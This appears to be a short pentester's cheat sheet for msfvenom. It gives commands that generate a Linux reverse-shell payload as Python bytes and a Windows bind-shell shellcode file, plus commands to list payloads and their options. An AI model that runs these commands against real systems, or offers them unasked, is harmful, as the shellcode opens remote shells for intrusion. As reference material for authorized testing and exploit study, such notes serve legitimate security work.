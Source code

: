# msfvenom

payload generator and encoder

## Linux reverse shell (to be included in a Python script)

* specify the format (`f`)
* specify the variable name (`v`)

```
msfvenom -p linux/x86/shell_reverse_tcp -f python -b '\x00\r\n' -v payload LHOST=<host> LPORT=<port> EXITFUNC=thread
```

## Windows bind shell (save the raw bytes to a file)

* save the result to a file (`o`)

```
msfvenom -p windows/shell_bind_tcp -f raw -b '\x00\r\n' -o shellcode.bin LPORT=<port> EXITFUNC=thread
```

## list Linux-specific payloads

```
msfvenom -l payloads | grep "linux/*"
```

## list the payload's options

```
msfvenom -p <payload> --list-options
```
